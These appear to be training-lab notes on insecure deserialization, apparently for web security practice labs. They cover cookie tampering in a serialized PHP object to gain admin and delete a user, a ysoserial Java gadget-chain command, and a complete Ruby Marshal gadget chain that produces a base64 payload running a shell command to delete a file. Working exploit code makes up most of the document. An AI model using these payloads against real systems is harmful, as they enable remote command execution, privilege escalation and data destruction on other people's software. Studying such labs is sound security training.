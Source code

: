#  Insecure deserialization



## 1. Lab: Modifying serialized objects
- Log in with your normal user account.
- Check the session cookie in the /my-account request—it’s URL and Base64-encoded.
- Decode the cookie in Burp’s Inspector. You’ll see a serialized PHP object. The admin attribute is b:0 (false).
- Send the request to Repeater and change b:0 → b:1 to make yourself an admin. Apply changes.
- Send the request—you should now see a link to /admin.
- Go to /admin, and you’ll see options to delete users.
- Delete Carlos’ account by sending a request to /admin/delete?username=carlos.





```
java \
  --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
  --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
  --add-opens=java.base/java.net=ALL-UNNAMED \
  --add-opens=java.base/java.util=ALL-UNNAMED \
  -jar ysoserial-all.jar CommonsCollections4 "rm /home/carlos/morale.txt" | base64 -w0

```




## Ruby Compiler : 
- https://www.jdoodle.com/execute-ruby-online 
- https://www.adaface.com/online-compiler/online-ruby-compiler

```
# Autoload the required classes

Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    require 'base64'
    require 'net/http'
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```
